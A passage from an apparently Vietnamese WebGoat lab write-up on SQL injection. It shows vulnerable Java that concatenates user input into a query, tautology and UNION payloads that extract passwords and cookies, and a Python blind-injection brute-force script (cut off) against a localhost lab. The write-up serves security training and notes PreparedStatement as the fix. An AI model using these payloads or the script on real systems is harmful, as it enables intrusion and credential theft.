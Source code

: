 - Sử dụng untrust data nhập từ người dùng `accountName` để chèn chuỗi trực tiếp vào câu truy vấn SQL.

```java
public AttackResult injectableQuery(String accountName) {
    String query = "";
    try (Connection connection = dataSource.getConnection()) {
      boolean usedUnion = true;
      query = "SELECT * FROM user_data WHERE last_name = '" + accountName + "'";
```

### POC

- Đầu tiên sử dụng payload `' or '1'='1` để xem toàn bộ dữ liệu trong bảng `user_data`
- Sử dụng UNION để có thể xem được dữ liệu từ bảng user_system_data

```sql
' UNION SELECT userid as user_system_id, user_name, password, cookie, 'a','b',1 FROM user_system_data -- 
```

- Password của Dave là `passW0rD`

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image.png)

### Cách khắc phục

- Sử dụng PreparedStatement

## Lab 5

### Nguyên nhân lỗi

- Chèn trực tiếp giá trị vào câu query dẫn đến bị tấn công SQL Injection

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%201.png)

### POC

- Từ lỗ hổng SQL Injection này, có thể bruteforce để tìm ra từng ký tự trong mật khẩu của người dùng Tom

```python
from requests import post, put
import json  
URL = "http://localhost:8080/WebGoat/SqlInjectionAdvanced/challenge"

letters = [chr(i) for i in range(97, 123)]

numbers = [str(i) for i in range(10)]

letters += numbers

password = ""

while True:
    for char in letters:
        headers = {  
            'Cookie': 'JSESSIONID=50WEjJp0KpMHh8QPjanNPieKQi_ZGTnt66PK1FQP'
        }  
        payload = f"tom' AND password LIKE '{password + char}%' --"
        data = {
            "username_reg": payload,
            "email_reg": "a@a.com",
            "password_reg": "a",
            "confirm_password_reg": "a"
```